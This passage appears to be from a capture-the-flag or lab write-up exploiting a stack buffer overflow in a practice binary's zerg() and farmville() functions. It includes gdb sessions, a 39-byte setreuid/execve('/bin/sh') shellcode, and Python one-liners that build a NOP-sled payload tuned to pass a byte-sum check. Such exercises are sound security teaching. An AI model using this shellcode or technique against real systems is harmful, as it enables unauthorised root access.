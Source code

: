 ```
Breakpoint 3 at 0x8048775
(gdb) cont
Continuing.

Breakpoint 3, 0x08048775 in zerg ()
```
Now, let's examine the data at `$ebp` and the return address after it. 
`(gdb) x/4x $ebp
0xffffda38:     0x58585858      0x08048799      0xffffdc00      0x0000000f
`
great the next 4 byte of `$ebp` is now the call address of `farmville()`. We can now just continue to the end of this program and check if it did enter the `farmville()` function.
```
(gdb) cont
Continuing.
[ZERG] Buffer received 20 characters!
aaaaaaaa
[FARMVILLE] Sum of incoming buffer is not divisible by 256 :-(
```
Yayyyy! It entered the `farmville()`. Note, cause we didn't feed anything into the `stdin`, the program asked us for input after `farmville()` is called. 

Now it's time to crack the `farmville()` function. 

Some preparation first：
We will need the shellcode that do `setreuid(geteuid, geteuid)`  and  `execve(/bin/sh)`  to give us root access in shell. The 39-byte shellcode is as follow:
`\x6a\x31\x58\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd
\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69
\x6e\x54\x5b\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80`
And buffer length: 228
`0x0804879c <+3>:     sub    $0xe4,%esp
(gdb) print 0xe4
$5 = 228`

There is only one criteria that `farmville()` required from our payload:
``` C
if ( (sum & 0xff) != 0)
        {
                printf ("[FARMVILLE] Sum of incoming buffer is not divisible by 256 :-(\n");
                exit (1);
        }
```
So our payload must again sum to a number divisible by 256. Recall the next 4 byte of `$ebp` is the return address and we want it to fall in somewhere of the `NOP` sleds, followed by our shellcode. At this moment, we will just craft some random payload and feed them to the `stdin ` so we can examine the desired address and tune up sum of our payload. 
`python -c 'print 
("\x90"*100+"\x6a\x31\x58\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x54\x5b\x50\x53
\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"+"A"*92+"\x88\xd9\xff\xff")'> farmville.sol`
and then we can combine this with the exploit to pass `zerg()`phase, like this:
` (gdb) run "$(< zerg.sol)" <farmville.sol`
This is very similar to the `zerg()` phase of figuring out the correct number added up to something divisible by 256, so I won't be verbose. 
``` python
$eax = 174
256-174 = 82
82/2 = 41
#replace 2 'A' with ('A'+41=)'j'
python -c 'print ("\x90"*100+"\x6a\x31\x58\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x54\x5b\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"+"A"*90+"j"*2+"\x88\xd9\xff\xff")'> farmville.sol
print $eax
$eax = 0   #Yayyyyy!
```
